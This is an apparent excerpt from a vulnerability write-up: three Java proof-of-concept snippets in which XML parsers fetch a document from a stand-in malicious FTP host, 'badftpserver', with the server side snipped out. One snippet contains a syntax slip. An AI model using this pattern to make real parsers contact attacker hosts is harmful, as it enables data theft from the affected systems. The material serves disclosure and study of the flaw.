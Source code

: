 ```
[snip]
```

## SAXParser Proof of Concept

```
SAXParserFactory factory = SAXParserFactory.newInstance();
SAXParser saxParser = factory.newSAXParser();
UserHandler userhandler = new UserHandler();
saxParser.parse("ftp://badftpserver:2121/whatever.xml”)
```

## DOM4J / SAXReader Proof of Concept

```
SAXReader reader = new SAXReader();
Document document = reader.read( "ftp://badftpserver:2121/whatever.xml" );
```

## JAVAX XML Parsers Proof of Concept

```
DocumentBuilder db = dbf.newDocumentBuilder();          
dom = db.parse("ftp://badftpserver:2121/whatever.xml");
```